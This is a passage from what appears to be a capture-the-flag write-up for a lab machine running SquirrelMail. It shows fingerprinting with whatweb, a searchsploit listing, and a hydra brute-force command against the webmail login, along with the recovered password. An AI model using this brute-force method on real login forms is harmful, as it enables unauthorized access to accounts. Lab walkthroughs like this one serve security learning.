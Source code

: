 
After finishing the fuzz, i found multiple directories  with a **(403)** status code (**Forbbidden**) and one directory named `/squirrelmail` with  a **(200 OK)** status code, so let's check the `/squirrelmail` directory.

Once inside we can see a **Webmail** service named **Squirrelmail** that asks us for credentials.

![Desktop View](SkynetMainPage.png)

Running `whatweb` i found the version of the web-mail service.

```bash
❯ whatweb http://10.10.201.231/squirrelmail/
http://10.10.201.231/squirrelmail/ [302 Found] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.201.231], RedirectLocation[src/login.php]
http://10.10.201.231/squirrelmail/src/login.php [200 OK] Apache[2.4.18], Cookies[SQMSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], HttpOnly[SQMSESSID], IP[10.10.201.231], PasswordField[secretkey], Script[JavaScript,text/javascript], SquirrelMail[1.4.23 [SVN]], Title[SquirrelMail - Login], X-Frame-Options[SAMEORIGIN]
```

We can see that we are against a `SquirrelMail[1.4.23 [SVN]]` web-mail version, checking in `searchsploit` we can't find any exploit available for this version.

```bash
❯ searchsploit squirrelmail 1.4
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SquirrelMail 1.4.2 Address Add Plugin - 'add.php' Cross-Site Scripting                                                                                  | php/webapps/26305.txt
Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                                                                                                | php/webapps/27948.txt
SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                                                                                                   | php/webapps/24068.txt
SquirrelMail < 1.4.22 - Remote Code Execution                                                                                                           | linux/remote/41910.sh
SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                                                                                                 | php/webapps/43830.txt
SquirrelMail < 1.4.7 - Arbitrary Variable Overwrite                                                                                                     | php/webapps/43839.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

But we can try to brute-force this login form with the known user `milesdyson` and the wordlist we got from the `Samba` service, we can perform this using `hydra`.

```bash
❯ hydra -l milesdyson -P log1.txt 10.10.201.231 http-post-form "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-10 00:23:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.201.231:80/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect.
[80][http-post-form] host: 10.10.201.231   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
```
